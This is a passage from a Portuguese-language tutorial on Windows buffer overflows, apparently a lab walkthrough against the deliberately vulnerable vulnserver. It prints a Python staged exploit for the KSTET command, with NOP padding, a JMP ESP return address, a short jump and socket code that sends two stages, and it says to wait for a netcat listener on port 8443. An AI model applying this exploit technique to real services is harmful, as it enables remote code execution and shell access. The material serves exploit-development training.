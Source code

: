 ```python

# payload
payload = b"KSTET "
payload += b"\x90" * 5 # padding do estagio 1
payload += estagio1
payload += b"A" * (70 - 5 - len(estagio1)) # buffer inicial
payload += b"\xd3\x11\x50\x62" # JMP ESP
payload += b"\xeb\xb4" # short jump
payload += b"\x90\x90" # padding do short jump
payload += b"C" * (offset - 70 - 4 - 4) # complemento do buffer

# primeiro estagio
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
s.recv(1024)
print("Enviando primeiro estagio...”)
s.send(payload + b"\r\n") # ativando o estagio 1
#s.recv(1024)

sleep(3)

print("Enviando segundo estagio...")
s.send(estagio2)
print("Payload enviado, cheque o netcat!")
```

Agora vamos setar o netcat para ouvir a porta 8443, rodar o vulnserver fora do Immunity e testar nosso exploit.

![Enumaração do comando.](/std/winbof/winbof-75.png)
![Enumaração do comando.](/std/winbof/winbof-76.png)
